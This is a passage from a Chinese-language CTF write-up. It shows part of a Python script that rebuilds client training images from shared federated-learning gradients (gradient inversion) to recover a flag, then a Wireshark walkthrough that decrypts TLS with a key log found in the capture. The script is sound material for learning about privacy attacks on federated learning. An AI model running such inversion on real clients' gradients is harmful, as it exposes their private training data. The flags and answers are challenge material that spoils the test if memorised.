            p2 = torch.quantile(channel, 0.02)
            p98 = torch.quantile(channel, 0.98)
            if p98 - p2 > 1e-8:
                channel = (channel - p2) / (p98 - p2)
                channel = channel.clamp(0, 1)
            high_contrast[channel_idx] = channel
        return high_contrast

    def reconstruct_all_clients(self, client_gradients: List[List[torch.Tensor]]) -> List[dict]:
        """重构所有客户端的数据"""
        print(f"开始梯度反演攻击，共 {len(client_gradients)} 个客户端")
        print("=" * 70)

        start_time = time.time()
        results = []

        for client_idx, gradients in enumerate(client_gradients):
            result = self.reconstruct_single_client(gradients, client_idx)
            results.append(result)
            print("-" * 50)

        total_time = time.time() - start_time
        self._print_summary(total_time, len(client_gradients))

        return results

    def _print_summary(self, total_time: float, num_clients: int):
        """打印总结信息"""
        print("
" + "=" * 70)
        print(f"🎉 梯度反演完成! 总耗时: {total_time:.1f}s ({total_time / 60:.1f}分钟)")
        print(f"📊 平均每个客户端: {total_time / num_clients:.1f}s")
        print(f"💾 所有图像已保存至 '{self.output_dir}' 目录")
        print("
📁 文件命名规则:")
        print("  client_XX_label_Y_loss_ZZZZZZ.ext")
        print("  - XX: 客户端编号 (00-15)")
        print("  - Y: 预测的标签 (0-9)")
        print("  - ZZZZZZ: 损失值")
        print("
🖼️  生成的图像类型:")
        print("  - *_original.png: 原始重构图像")
        print("  - *_enhanced.png: 对比度增强版本")
        print("  - *_high_contrast.png: 高对比度版本（推荐查看）")
        print("
💡 使用建议:")
        print("  1. 查看 *_high_contrast.png 文件提取字符")
        print("  2. 按顺序组合 client_00 到 client_15 的字符")
        print("  3. 检查标签和损失值辅助验证")


def main():
    """主函数"""
    print("🚀 启动改进的梯度反演攻击...")
    print("⏰ 开始时间:", time.strftime("%Y-%m-%d %H:%M:%S"))

    # 定义模型结构
    class SimpleCNN(nn.Module):
        def __init__(self):
            super().__init__()
            self.conv_layers = nn.Sequential(
                nn.Conv2d(3, 32, 3, padding=1),
                nn.ReLU(),
                nn.MaxPool2d(2),
                nn.Conv2d(32, 64, 3, padding=1),
                nn.ReLU(),
                nn.MaxPool2d(2),
                nn.Conv2d(64, 64, 3, padding=1),
                nn.ReLU(),
            )
            self.classifier = nn.Sequential(
                nn.Flatten(),
                nn.Linear(64 * 8 * 8, 128),  # 修正线性层输入尺寸
                nn.ReLU(),
                nn.Linear(128, 10)
            )

        def forward(self, x):
            x = self.conv_layers(x)
            x = x.view(x.size(0), -1)  # 使用view而不是Flatten
            x = self.classifier[1](x)  # 跳过Flatten层
            x = self.classifier[2](x)  # ReLU
            x = self.classifier[3](x)  # 最终线性层
            return x

    # 加载模型和梯度数据
    print("📂 加载模型和梯度数据...")
    try:
        checkpoint = torch.load('flag2.pth', map_location='cpu')
        print("✅ 数据加载成功")
    except Exception as e:
        print(f"❌ 数据加载失败: {e}")
        return []

    model = SimpleCNN()
    model.load_state_dict(checkpoint['model_state_dict'])

    # 创建攻击实例并执行重构
    attacker = GradientInversionAttack(model, "reconstructed_images_improved")
    results = attacker.reconstruct_all_clients(checkpoint['client_gradients'])

    print("⏰ 结束时间:", time.strftime("%Y-%m-%d %H:%M:%S"))
    return results


if __name__ == "__main__":
    # 设置torch参数以获得更好性能
    torch.backends.cudnn.benchmark = True
    torch.set_num_threads(8)

    # 设置随机种子以获得可重复的结果
    torch.manual_seed(42)

    results = main()
```



精度不太够有的看不清的只能根据大概意思猜一下了

其中空白的图片应该是下划线`_`，拼接即可得到第二段flag

```
flag{C00l!_e45y_CVE_WITH_FUNNY_DLG}
```

# 挑战题

### 不是所有牛奶都叫\_\_\_\_\_

> 题目内容：
>
> 什么牛奶？MN？YGNC？YL？特@$&!$&\*!@$^&-------------------.
>
> （flag提交时去掉&符号）

特仑苏，简写为tls。wireshark打开流量包在5sLk3y.log中存放着tls密钥



导出为.log文件，然后在首选项里导入这个密钥key



之后过滤tls，可以看到内容都被解密成http协议了

其中有一个数据包里面是上传了一个base64编码的图片



base64编码转下图片，然后扫描即可获得flag



```
flag{W0w_You_r3al1y_knOW_TL5&QrCode}
```
